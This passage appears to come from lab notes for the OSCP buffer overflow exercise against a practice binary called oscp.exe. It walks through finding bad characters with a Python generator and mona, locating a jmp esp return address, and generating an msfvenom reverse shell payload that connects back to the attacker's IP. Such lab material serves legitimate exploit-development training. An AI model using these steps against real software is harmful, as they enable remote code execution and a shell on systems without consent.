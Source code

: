     ```
    for x in range(1, 256):
      print("\\x" + "{:02x}".format(x), end='')
    print()
    ```
    
    Update your exploit.py script and set the payload variable to the string of bad chars the script generates.
    
    Restart oscp.exe in Immunity and run the modified exploit.py script again. Make a note of the address to which the ESP register points and use it in the following mona command:
    
    `!mona compare -f C:\mona\oscp\bytearray.bin -a <address>`
    
    A popup window should appear labelled "mona Memory comparison results". If not, use the Window menu to switch to it. The window shows the results of the comparison, indicating any characters that are different in memory to what they are in the generated bytearray.bin file.
    
    Not all of these might be badchars! Sometimes badchars cause the next byte to get corrupted as well, or even effect the rest of the string.
    
    The first badchar in the list should be the null byte (\x00) since we already removed it from the file. Make a note of any others. Generate a new bytearray in mona, specifying these new badchars along with \x00. Then update the payload variable in your exploit.py script and remove the new badchars as well.
    
    Restart oscp.exe in Immunity and run the modified exploit.py script again. Repeat the badchar comparison until the results status returns "Unmodified". This indicates that no more badchars exist.
    

# **Finding a Jump Point**

- **Finding a Jump Point**
    
    With the oscp.exe either running or in a crashed state, run the following mona command, making sure to update the -cpb option with all the badchars you identified (including \x00):
    
    `!mona jmp -r esp -cpb "\x00"`
    
    This command finds all "jmp esp" (or equivalent) instructions with addresses that don't contain any of the badchars specified. The results should display in the "Log data" window (use the Window menu to switch to it if needed).
    
    Choose an address and update your exploit.py script, setting the "retn" variable to the address, written backwards (since the system is little endian). For example if the address is \x01\x02\x03\x04 in Immunity, write it as \x04\x03\x02\x01 in your exploit.
    

# **Generate Payload**

- **Generate Payload**
    
    Run the following msfvenom command on Kali, using your Kali VPN IP as the LHOST and updating the -b option with all the badchars you identified (including \x00):
    
    `msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f c`
    